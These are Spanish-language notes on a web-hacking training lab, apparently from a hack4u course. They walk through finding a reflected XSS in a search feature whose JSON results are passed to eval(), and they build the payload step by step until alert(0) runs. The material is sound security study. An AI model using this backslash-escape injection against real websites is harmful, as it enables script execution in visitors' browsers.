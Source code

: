 La funcionalidad vulnerable está en el buscador del sitio. Al realizar una búsqueda, el término ingresado se refleja en un archivo JSON de resultados. Este contenido es posteriormente procesado por un script que usa una función que interpreta dinámicamente texto como si fuera código, abriendo la puerta a una inyección si no se escapan correctamente ciertos caracteres.

Aunque el sistema escapa comillas, no hace lo mismo con otros símbolos clave, como la barra invertida. Esto nos permite construir un valor malicioso que rompe la estructura del objeto y añade una instrucción personalizada, haciendo que se ejecute directamente en el navegador.

Este laboratorio muestra cómo una cadena aparentemente segura puede convertirse en un vector de ejecución de código si se mezcla con funciones peligrosas como la evaluación directa de datos, reforzando la importancia de evitar el uso de estas prácticas en el desarrollo web moderno.

---

https://hack4u.io/cursos/hacking-web/20124/

Primeramente probamos los tipicos script o payload para ver si se provoca un XSS, pero al final no es posible, ahora debemos de inspeccionar el codigo en la respuesta y hay un script de busqueda, lo analizamos con CURL

![](Pasted%20image%2020250709103357.png)

Vemos en las primeras lineas esta haciendo uso de la funcion EVAL, entonces buscamos en google qué es eso:

javascript eval function, el cual nos dice que es peligroso usar EVAL

El cual, con EVAL podemos hacer operatorias aritmeticas

```javascript
eval(2+1)
eval(2*1)
eval(2-1)
```

ahora, pasamos la solicitud por burp para saber qué recursos son los que manda llamar la aplicacion, y hay una petición hacia 

    /search-results?search=<input>

El cual, podemos ver el input que podemos insertar

    /search-results?search=probando

Y en la respuesta de la peticion, nos muestra la informacion en formato json, ahora probamos si podemos salir del contexto de json:

    /search-results?search=probando"
    /search-results?search=probando"hola

En esta esta peticion, es posible salir del contexto de json, porque escapamos las comillas y se interpreta la cadena "hola"

    /search-results?search=probando\"hola

Intentamos inyectar un alert

    /search-results?search=probando\"alert(0)

Pero hay un error en la sintaxis, entonces cerramos las llaves que hacen falta y adicional comentamos el resto de la sentencia

    /search-results?search=probando\"alert(0)}//

Vemos el alert no se interpreta de manera correcta, por lo que debemos de usar EVAL, insertando un valor aritmetico antes de la funcion alert

    /search-results?search=probando\"*alert(0)}//

Y si enviamos la cadena:

    probando\"*alert(0)}//

Se acontese el XSS, 







